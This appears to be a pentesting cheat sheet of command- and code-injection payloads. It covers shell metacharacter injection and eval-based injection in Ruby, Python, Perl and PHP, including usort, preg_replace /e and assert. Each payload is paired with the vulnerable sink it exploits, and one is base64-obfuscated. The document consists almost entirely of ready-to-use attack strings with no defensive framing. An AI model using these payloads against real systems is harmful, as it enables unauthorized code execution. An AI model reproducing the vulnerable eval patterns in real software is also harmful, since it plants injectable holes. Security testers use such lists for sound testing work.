# Execute Commands

## Command Execution

```bash
;id
`id`
$(id)
```

## Ruby Code Execution

``` bash
eval "\""+params['1']+"\""

?1="%2b`id`%2b"
```

## Python Code Execution

``` bash
eval('"'+1+'"')

"%2bos.system('id')%2b"

"%2bos.popen('id').read()%2b"

"%2b__import__('os').popen('id').read()%2b"

"%2b__import__('os').popen(__import__('base64').b64decode('aWQ=')).read()%2b"
```

## Perl Code Execution

``` bash
eval("return '".$FORM{1}."'");

/cgi-bin/form?1='.`id`.'
```

## PHP Code Execution

### <a href='https://www.php.net/manual/en/function.eval.php' target="blank">eval()</a>

``` bash
$s="echo \"".$_GET['1']."\";";

eval($s);

?1=".system('id')."
```

### usort()

``` bash
$1 = $_GET["1"];

usort(function('$a, $b', 'return strcmp($a->'.$1.',$b->'.$1.');'));

?1=id);}system('id');//
```

### preg_replace()

``` bash
preg_replace($_GET["1"], $_GET["2"], $_GET["3"]);

?1=/x/e&2=system('id')&3=x
```

### assert()

``` bash
assert(trim("'".$_GET['1']."'"));

echo htmlentities($_GET['1']);

?1=hacker'.system('id').'
```